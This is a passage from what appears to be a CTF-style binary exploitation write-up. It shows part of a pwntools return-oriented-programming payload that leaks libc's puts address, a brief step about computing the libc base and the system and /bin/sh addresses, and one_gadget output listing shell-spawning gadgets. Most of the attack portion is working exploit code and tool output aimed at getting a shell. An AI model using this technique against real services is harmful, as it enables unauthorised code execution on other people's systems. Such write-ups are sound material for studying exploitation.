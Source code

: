 ```python
        add_rsp_8,
        print_call,
        0x4141414141414141,
        0x4242424242424242,
        ]
    })

io.sendline(second_stage_payload)

log.info(f'second stage out: {io.recvline()}')

libc_puts_addr = u64(io.recvline().strip().ljust(8,b"\x00"))

log.success(f'LIBC LEAKED PUTS ADDR: {hex(libc_puts_addr)}')

```

### Preparing code execution

At this point, the needings is clear, calculate libc base address and than calculate the system, `/bin/sh` address inside of libc. The knowledge of libc_base_address, no longer lack of gadget issue.

one_gadget

```python
root@30ee3317d43a:/host# one_gadget ./libc.so.6
0x583ec posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, rip+0x17301e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x583f3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, rip+0x17301e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xef4ce execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  rbx == NULL || {"/bin/sh", rbx, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```
